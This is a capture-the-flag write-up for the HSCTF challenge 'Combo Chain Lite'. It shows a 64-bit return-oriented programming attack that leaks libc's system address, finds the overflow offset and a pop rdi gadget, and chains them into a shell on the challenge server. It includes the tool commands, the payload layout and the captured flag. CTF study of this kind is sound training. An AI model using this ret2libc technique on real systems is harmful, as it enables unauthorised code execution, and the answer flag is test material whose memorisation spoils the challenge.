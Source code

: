# Combo Chain Lite
Binary Exploitation

## Challenge 

Training wheels!

nc pwn.hsctf.com 3131

## Hint
What's a ROP?

## Solution

Given 64 bit ELF binary to do ROP.

Reference: https://medium.com/@int0x33/day-3-rop-emporium-split-64bit-338b5edccf1a

#### Libc version

    # nc pwn.hsctf.com 3131
    Here's your free computer: 0x7ff326eda390
    Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: ^C

Do search on libc.blukat.me for `390`.

- https://libc.blukat.me/?q=system%3A390&l=libc6_2.23-0ubuntu11_amd64
- libc6_2.23-0ubuntu11_amd64

#### Form payload

The payload should be as follows:
    
    offset_padding + pop_rdi_gadget + str_bin_sh + system_addr

Offset padding is 16 bytes

    # pwn cyclic 100 | strace ./combo-chain-lite | tail -5
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616165} ---
    +++ killed by SIGSEGV +++
    Segmentation fault
    
    # pwn cyclic -l 0x61616165
    16

Pop rdi gadget

    # ROPgadget --binary combo-chain-lite | grep 'pop rdi'
    0x0000000000401273 : pop rdi ; ret

Calculate str_bin_sh using the above libc version: https://libc.blukat.me/?q=system%3A390&l=libc6_2.23-0ubuntu11_amd64

    Symbol      Offset      Difference
    system      0x045390    0x0
    open        0x0f7030    0xb1ca0
    read        0x0f7250    0xb1ec0
    write       0x0f72b0    0xb1f20
    str_bin_sh  0x18cd57    0x1479c7

#### Get flag

    # python solve_pwntools.py 
    [+] Opening connection to pwn.hsctf.com on port 3131: Done
    ('system():', '0x7f2dcd87d390')
    [*] Switching to interactive mode
    Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: $ ls
    bin
    combo-chain-lite
    combo-chain-lite.c
    dev
    flag
    lib
    lib32
    lib64
    $ cat flag
    hsctf{wheeeeeee_that_was_fun}

## Flag

    hsctf{wheeeeeee_that_was_fun}
